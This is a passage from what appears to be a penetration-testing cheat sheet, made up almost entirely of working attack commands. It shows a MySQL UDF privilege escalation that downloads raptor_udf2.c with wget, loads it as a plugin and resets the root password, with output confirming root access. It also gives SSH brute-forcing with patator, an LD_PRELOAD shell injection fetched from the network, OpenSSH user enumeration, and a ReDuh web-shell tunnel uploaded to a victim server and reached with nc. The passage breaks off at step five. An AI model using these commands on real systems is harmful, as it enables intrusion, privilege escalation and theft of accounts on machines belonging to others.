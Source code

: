 ```
# Mysql Server version: 5.5.44-0ubuntu0.14.04.1 (Ubuntu)
$ wget 0xdeadbeef.info/exploits/raptor_udf2.c
$ gcc -g -c raptor_udf2.c
$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
mysql -u root -p
mysql> use mysql;
mysql> create table foo(line blob);
mysql> insert into foo values(load_file('/home/user/raptor_udf2.so'));
mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
mysql> create function do_system returns integer soname 'raptor_udf2.so';
mysql> select * from mysql.func;
mysql> select do_system('echo "root:passwd" | chpasswd > /tmp/out; chown user:user /tmp/out');

user:~$ su -
Password:
user:~# whoami
root
root:~# id
uid=0(root) gid=0(root) groups=0(root)
```
### Bruteforce SSH login with patator

```
root:~# patator ssh_login host=192.168.0.18 user=FILE0 password=FILE1 0=word.txt 1=word.txt -x ignore:mesg='Authentication failed.'
```
### Using LD_PRELOAD to inject features to programs

```
$ wget https://github.com/jivoi/pentest/ldpreload_shell.c
$ gcc -shared -fPIC ldpreload_shell.c -o ldpreload_shell.so
$ sudo -u user LD_PRELOAD=/tmp/ldpreload_shell.so /usr/local/bin/somesoft
```
### Exploit the OpenSSH User Enumeration Timing Attack

```
# https://github.com/c0r3dump3d/osueta
$ ./osueta.py -H 192.168.1.6 -p 22 -U root -d 30 -v yes
$ ./osueta.py -H 192.168.10.22 -p 22 -d 15 -v yes –dos no -L userfile.txt
```
### Create a TCP circuit through validly formed HTTP requests with ReDuh

```
# https://github.com/sensepost/reDuh

# step 1
# upload reDuh.jsp to victim server
$ http://192.168.10.50/uploads/reDuh.jsp

# step 2
# run reDuhClient on attacker
$ java -jar reDuhClient.jar http://192.168.10.50/uploads/reDuh.jsp

# step 3
# connecting to management port with nc
$ nc -nvv 127.0.0.1 1010

# step 4
# forward localport to remote port with tunnel
[createTunnel] 7777:172.16.0.4:3389

# step 5
```